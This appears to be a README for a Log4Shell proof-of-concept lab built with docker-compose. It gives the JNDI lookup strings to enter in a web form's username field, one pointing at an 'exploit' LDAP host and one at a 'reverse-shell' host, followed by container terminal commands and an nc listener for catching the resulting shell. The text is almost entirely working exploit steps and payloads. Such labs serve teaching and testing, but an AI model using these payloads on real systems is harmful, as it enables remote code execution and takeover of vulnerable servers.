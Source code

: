 ## Log4shell proof of concept

To start:
```docker-compose up```

Go go localhost:8000 and fill into username:

```${jndi:ldap://exploit:9999/Evil}```


Go back and fill another time:
```${jndi:ldap://reverse-shell:1389/a}```


Start terminal in Ubuntu:
```
docker-compose up -d ubuntu
docker-compose exec ubuntu bash
```

Start terminal in web-server:
```docker-compose exec web-server bash```

Listen for reverse shell:
```nc -lv 9001```


